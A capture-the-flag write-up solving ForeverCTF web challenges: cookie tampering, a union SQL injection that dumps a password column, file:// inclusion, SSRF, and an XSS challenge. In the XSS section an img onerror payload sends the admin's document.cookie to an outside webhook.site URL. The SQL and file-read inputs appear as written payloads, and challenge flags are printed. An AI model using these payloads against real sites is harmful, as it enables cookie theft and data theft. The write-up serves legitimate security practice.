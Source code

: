 <h3> ForeverCTF  </h3>

<h3> Challenge Solved: </h3>

__P.S I'll be updating since I haven't really solved all the challs and the ctf is running forever `¯\_(ツ)_/¯`__ </h3>

## Web
- Start at the Source 
- Cookies
- Baby SQLi 
- Local File Inclusion 
- XSS
- Server Side Request Forgery
- Command Injection
- SQLi

## Binary Exploitation
- uint64_t
- Tricky Indices
- Overflow
- Jump
- Shelly Sells Shells
- Params
- Canary in a Coal Mine
- ROP
- Get my GOT
- Leak
- ret2libc
- Printf
- Resolve
- Signals

## Reverse Engineering
- strings
- xor
- Simple Checker
- gdb

## Cryptography
- All Your Base Are Belong To Us
- Zeros and Ones
- All Greek To Me
- DEADBEEF
- Bookwork
- RSA
- Bad Parameters

## Forensics
- Met A Data
- Not Very Significant Message
- Redacted
- Magic
- Zipped
- Dr. Doom's Devious Deletion Dilemma

 ## Miscellaneous
 - Nested Zip

 ## Networking
 - HTTP Objects


### Web 8/8:~

#### Start at the Source 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f400d2ca-8e7c-4a86-a5ec-69bc518ac1a3)

Going over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/7b6d1659-e78e-4543-b57b-0e6281ea98e4)

Checking the page source gives the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/64baed16-debe-4ab9-92f0-86c0c02aa6a1)

```
Flag: utflag{1_l1ke_h1de_&_seek}
```

#### Cookies
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fd8cf95b-efa0-4030-a47a-6291128d8802)

Going over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee338b71-afba-479a-930f-391337b4e2d6)

Checking the cookies available shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/065ebe70-f27a-470d-afd8-11058b418ff4)

I set the `isCookieMonster` to `true` 

And on refreshing the page I got the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/014558e8-f397-4b56-9b1b-e0efde833614)

```
Flag: utflag{c0ngrat5_tak3_a_byt3}
```

#### Baby SQLi 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/df6e5bd9-c271-4b02-94f9-072422f05541)

We are given this:

```sql
INSERT INTO users(username, password, email) VALUES ('admin', 'utflag{*****************}', 'contact@isss.io');
```

So this means the value stored in column `password` will contain the flag

Moving over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1e403fcc-299a-4c23-9812-d88128aa21ef)

Searching for a valid mail returns the username it belongs to 
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/127159644/252477232-b98b35f8-b8c5-4956-a915-3eadf423d87c.png)

But a non valid mail turns an empty array
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f162a2c0-5c01-4cb6-99fe-3004a81b62b7)

When I inject a single quote `'` it returns error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ccdc987c-86eb-49fb-a0d8-6b8fa9de11e7)

But using `--` comments it and no error is shown
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79fd4c7f-423f-44f1-9927-04bca149728d)

This means that the web server is vulneable to SQL Injection

We can also tell from the Challenge name 😉

Since only a single table is available and the flag is in the password column. I will use a `union` query to get that
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6221124d-4394-42c3-a4b5-912586b3b50e)

```
Payload: ' union select password from users --
```

And I got the flag

```
Flag: utflag{wow_lets_unionize}
```

#### Local File Inclusion 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09035a6c-4351-4f83-a4ca-beb5de45670f)

Going over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ab466005-b7ed-4df6-855a-863d00fbe86f)

I tried including `google.com` and it returns the content
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1715f839-b09f-460a-8607-b7df10a905f8)

One thing we should know is that not only `http and https` are the url protocols there's also `gopher, ftp, file etc.` 

The `file` protocol can be used in this case

We are already given the flag location to be at `/` 

Let us get it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6adf3015-86bf-4d67-ac1f-2743c0c41949)

```
Payload: file:///flag.txt
```

And I get the flag

```
Flag: utflag{g0t_y0ur_r3s0urc3!}
```

#### XSS
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c9b4ce77-3d13-48f3-b704-97f148f5b916)

Going over to the web url shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/797af4c8-143f-4a67-996a-f9ce532f9ecf)

Giving it input shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ff0cefde-8297-4cb8-8bbd-3e54085ee5d0)

When I clicked on the url it gave I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4118d0ea-e60d-4345-980e-24c435ceedc1)

And it is just in the form tag 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0e62e1c6-7926-4dd1-b3b1-93d4fd910f42)

I can try inject html tags 

Doing that works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/417941d0-9723-4c7e-a4ec-f661debf4687)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/241c8bea-a00f-44f7-b488-4f72c064c5ec)

From the challenge description the flag is in the admin cookie

So from this vulnerability which is of cause Cross Site Scripting (XSS) we can steal the admin cookie

But when I tried injecting a `alert` tag I got error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3cb7f975-4b51-4c52-9fc6-044602e3abef)

Luckily I don't even need that to steal the admin cookie

Here's the payload I used
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fc4c9b11-f085-42d1-b04d-82c4c5f85df8)

```
<img src=x onerror=this.src='https://webhook.site/04fe7606-2bda-443a-a66e-37be76febc63/?'+document.cookie;>
```

Back on the [webhook](https://webhook.site) site I got multiple http requess and each one contains the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c31dc362-1380-44cf-bef0-899634b2e0c3)

```
Flag: utflag{boop_beep_ddj333}
```

#### Server Side Request Forgery
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58e97247-e19e-4289-8a1e-ef278ac6594d)

Accessing the url shows this error
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/76e62907-9313-4072-9fa9-4c9ec0e7ee2d)

```
Sorry, only cool kids on the internal network are allowed to login.
```

I then accessed `http://forever.isss.io:4225/` and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d2293dfb-fcd0-4024-a6ab-337695cbb159)

We can try using `file` protocol to read local files
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1c4e3b0f-32e0-4a6e-a21d-2efe602ce1f4)

But we need the flag

The challenge name has already given us the hint of solving this which is a Server Side Request Forgery (SSRF) vulnerability

With this vulnerability we can access internal services running on the host

What we would want to access is `{url}/flag` 

Doing that I got the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0d6c771a-87f2-46ac-88e1-45e21cc632fb)

```
Flag: utflag{SSRF_isnt_so_bad_after_all}
```
